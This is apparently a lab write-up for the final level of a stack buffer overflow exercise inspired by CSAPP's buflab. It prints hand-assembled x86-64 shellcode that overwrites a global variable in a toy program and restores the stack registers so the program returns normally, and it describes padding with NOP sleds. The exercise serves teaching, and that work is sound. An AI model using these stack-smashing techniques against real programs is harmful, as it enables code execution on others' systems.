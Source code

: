 # StackOverflow Final

## Goals
1. Target global variable
2. First Attack
3. Figure out how to return normally
4. Final Attack


## Locate `a`
In our `test.c` used in Level 3, there is a global variable `a` initialized to `0`. We need to change it to `1` to complete the hacking challenge.

First, we need to know `a`'s address. Simply disassemble the program so we know it:

    400605: 8b 05 49 0a 20 00       mov    0x200a49(%rip),%eax        # 601054 <a>

Second, we need to know how to assemble the string to complete the operation `a=1`:

    48 c7 c0 01 00 00 00      # mov    $0x1, %rax
    48 89 04 25 54 10 60 00   # mov    %rax, 0x601054

Here, We set `%rax` to `1`, then we move `%rax`'s value into `a`'s address.

NOTE: How did I get the hexadecimal? I used `as` to assemble the segment of x86 assembling code I handwrite, then disassemble it to check if it is legal, and grab the hexadecimal code by the way.

## First Attack
We concatenate the assembled hexadecimal code to the head of the string. In order to test whether `a` has been changed, we need to turn on the `gdb` and `run < hex_str`. After we got `illegal instruction`. We will `x 0x601054`, and find out if it is `0x000000001`, like:

    Program received signal SIGILL, Illegal instruction.
    0x00007fffffffe29f in ?? ()
    (gdb) x 0x601054
    0x601054 <a>:   0x00000001

## How to return as if nothing as happened?
We want to return to `test()` normally after we modified `a`'s value. So the original `if` will be fooled!

Dear reader, if you got a minute, please try to work out how to code this first.

My scheme is simple. Since the first time we returned, we returned to the address in stack, which is the forged one. So the second time, we need to restore two parts: Registers and memory, and use our own `leave` and `ret` instructions to return.

First, modify the stack pointers, i.e. `$rbp` and `$rsp` exactly as what they are before the first `leave` is done.

Second, since the stack is also corrupted by our string, so we need to recover it, i.e. the return address and pushed `$rbp`'s value. We can know them easily in `gdb` as well.

So, the assembling code would come naturally:

    48 c7 c0 01 00 00 00    mov    $0x1,%rax
    48 89 04 25 54 10 60    mov    %rax,0x601054
    00 
    48 bc b0 e2 ff ff ff    movabs $0x7fffffffe2b0,%rsp
    7f 00 00 
    48 bd 80 ea ff ff ff    movabs $0x7fffffffea80,%rbp
    7f 00 00 
    48 c7 45 08 05 06 40    movq   $0x400605,0x8(%rbp)
    00 
    48 c7 45 0c 00 00 00    movq   $0x0,0xc(%rbp)
    00 
    c9                      leaveq 
    c3                      retq 

I have put the attacking part in `attack_string.txt`, and the tail string which will corrupt the stack in `cover_string.txt`.

While you may use `perl` to pad the 2000 bytes long string, you can assembly them into a string with `gen.py` automatically as well. You can set the `NOP`s at the head in the python script, and `python gen.py > string` to generate the string.

## Final Attack
Finally, we construct the string and feed it into `./test`.

Oops, the fact is, on my machine, `illegal instruction` fault came out. But to my surprise, in `GDB`, it is a success!

So, I try to use `gen.py` to pad a bunch of `NOP`s before the actual attacking code, hoping it would help. But it failed. However, since we succeeded in debugger, there is no way to debug it (X_X). If you met the same problem and figure it out, please tell me!

Oh, I almost forget, turn you Linux's protection back on after the hacking session!

## Some more words
### Reference
CMU's CSAPP buflab inspired me greatly. So, you may want to checkout it yourself.

### About Shellcode
Actually, if you searched for "stack smashing attack" on the web, `shellcode` will be a hot keyword. It is just like our final level, but its target is to spawn a shell, which gave out the privilege.